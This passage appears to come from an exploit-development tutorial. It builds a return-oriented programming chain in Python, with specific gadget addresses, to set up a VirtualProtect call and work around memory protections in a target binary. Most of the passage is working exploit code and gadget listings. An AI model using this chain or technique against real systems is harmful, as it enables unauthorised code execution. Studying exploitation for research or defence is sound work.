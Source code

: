 So in order to get the value on the stack into `EBX` and return to the next gadget in the chain, we need to find a gadget which does the following:

```text
pop r32
pop ebx
ret
```

Luckily, there is a gadget that makes this possible:

```text
0x625014e1: pop ebx ; pop ebx ; ret
```

This means we can modify the `0x62507124` pointer to hold the address to the gadget above. The sequence of these gadgets should be placed after those that initially modified the `0x625070DC` pointer, constructing our gadget chain:

```python
rop = b''
# 0. preserve location of VirtualProtect skeleton in ECX
rop += struct.pack('<L', 0x625021ff) # nop ; mov ecx, eax ; mov eax, ecx ; pop ebx ; pop esi ; ret
rop += struct.pack('<L', 0x41414141) # junk for ebx
rop += struct.pack('<L', 0x41414141) # junk for esi
# ECX now holds pointer to VirtualProtect skeleton

# 1. override 0x625070DC to hold address of pop r32 ; ret gadget
rop += struct.pack('<L', 0x625014fc) # pop ebx ; ret
rop += struct.pack('<L', 0x625070DC) # ebx will be 0x625070DC 
rop += struct.pack('<L', 0x625014d5) # pop eax ; ret
rop += struct.pack('<L', 0x625012f7) # pop ebp; ret
rop += struct.pack('<L', 0x62501ea9) # mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC]

# 2. override 0x62507124 to hold address of pop r32 ; pop ebx ; ret gadget
rop += struct.pack('<L', 0x625014fc) # pop ebx ; ret
rop += struct.pack('<L', 0x62507124) # ebx will be 0x62507124 
rop += struct.pack('<L', 0x625014d5) # pop eax ; ret
rop += struct.pack('<L', 0x625014e1) # address of pop ebx ; pop ebx ; ret
# EAX now holds address of pop ebx ; pop ebx ; ret
rop += struct.pack('<L', 0x62501ea9) # mov  [ebx], eax ; mov eax,  [esp+0x24] ; mov  [ebx+0x04], eax ; call  [0x625070DC]
```

However there is a slight problem, `EAX` gets mangled throughout these sequence of gadgets hence why we persisted the original value of `EAX` in `ECX`. Thus we can use the following gadget to restore `EAX` to its original value:

```python
rop += struct.pack('<L', 0x6250219d) # mov eax, ecx ; ret
rop += struct.pack('<L', 0x62501a9d) # mov  [esp+0x00], eax ; call  [0x62507124]
rop += struct.pack('<L', 0x41414141) # junk will be overwritten by [esp + 0x00]
rop += struct.pack('<L', 0x62501d08) # ! int3 (breakpoint instruction) 
```
